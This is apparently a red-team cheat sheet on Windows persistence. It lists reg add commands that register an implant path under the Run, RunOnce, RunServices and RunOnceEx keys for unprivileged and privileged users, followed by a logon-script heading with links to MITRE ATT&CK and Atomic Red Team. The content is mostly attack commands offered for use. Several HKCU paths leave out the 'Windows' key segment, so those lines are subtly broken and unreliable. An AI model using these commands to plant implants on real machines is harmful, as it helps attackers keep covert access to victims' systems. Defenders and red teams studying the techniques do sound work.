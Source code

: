 ## Windows Peristence


## Low Privilege Level
>___


#### Registry Starup Persistence

- Unprivileged

```
> reg add "HKCU\Software\Microsoft\CurrentVersion\Run" /v <value> /t REG_SZ /d "C:\path\to\implant"

> reg add "HKCU\Software\Microsoft\CurrentVersion\RunOnce" /v <value> /t REG_SZ /d "C:\path\to\implant"

> reg add "HKCU\Software\Microsoft\CurrentVersion\RunServices" /v <value> /t REG_SZ /d "C:\path\to\implant"

> reg add "HKCU\Software\Microsoft\CurrentVersion\RunServicesOnce" /v <value> /t REG_SZ /d "C:\path\to\implant"
```

- Privileged users

```
> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v <value> /t REG_SZ /d "C:\path\to\implant"

> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v <value> /t REG_SZ /d "C:\path\to\implant"

> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices" /v <value> /t REG_SZ /d "C:\path\to\implant"

> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v <value> /t REG_SZ /d "C:\path\to\implant"

> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v <value> /t REG_SZ /d "C:\path\to\implant"

> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v <value> /t REG_SZ /d "C:\path\to\implant.dll"
```


#### Logon Script (Registry)

Regular User / Medium Integrity Level

- https://attack.mitre.org/techniques/T1037/001/
- https://www.atomicredteam.io/atomic-red-team/atomics/T1037.001
- https://cocomelonc.github.io/persistence/2022/12/09/malware-pers-20.html
- https://hadess.io/the-art-of-windows-persistence/#h-logon-scripts
